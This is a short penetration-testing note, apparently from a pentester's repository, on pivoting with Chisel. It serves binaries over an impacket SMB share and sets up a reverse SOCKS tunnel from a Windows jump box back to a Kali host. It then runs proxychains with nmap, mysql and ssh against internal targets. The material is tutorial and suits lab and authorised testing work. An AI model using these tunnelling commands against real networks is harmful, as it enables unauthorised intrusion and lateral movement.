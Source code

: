# Port Forwarding with Chisel


## Config

Edit `/etc/proxychains4.conf` file
```
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
#socks4         127.0.0.1 9050
socks5          127.0.0.1 1080
```
Comment `socks4` line and add `socks5` line.

## Sharing and transferring the files

```
cd /usr/share/windows-resources/binaries
impacket-smbserver share $(pwd) -smb2support
```

- x86
```
xcopy \\<Kali IP>\share\chisel\x86\chisel.exe C:\Temp\chisel\
```

- x64
```
xcopy \\<Kali IP>\share\chisel\x64\chisel.exe C:\Temp\chisel\
```


## Kali <==> Windows JumpBox <==> Target

Kali - server
```
./chisel server -p 8000 --reverse
```

Windows JumpBox - client
```
.\chisel.exe client <Kali IP>:8000 R:socks
```

---

Access with nmap
- -Pn: Treat all hosts as online -- skip host discovery
- -n: Never do DNS resolution
- -sS/sT/sA/sW/sM: TCP SYN/Connect()/ACK/Window/Maimon scans
```
proxychains nmap -sT -p <Target Ports> -Pn -n <Target IP>
```

Access with mysql
```
proxychains mysql -h <Target IP> -u <user> -p
```

Access with ssh
```
proxychains ssh <user>@<Target IP>
```

Access with dbeaver

![dbeaver](images/proxychains_chisel_dbeaver.png)


## Download

- [Chisel - releases](https://github.com/jpillora/chisel/releases)


## Links

- [YouTube - Elevate Cyber - Chisel](https://www.youtube.com/watch?v=dIqoULXmhXg)
- [Port Forwarding with Chisel](https://notes.benheater.com/books/network-pivoting/page/port-forwarding-with-chisel)
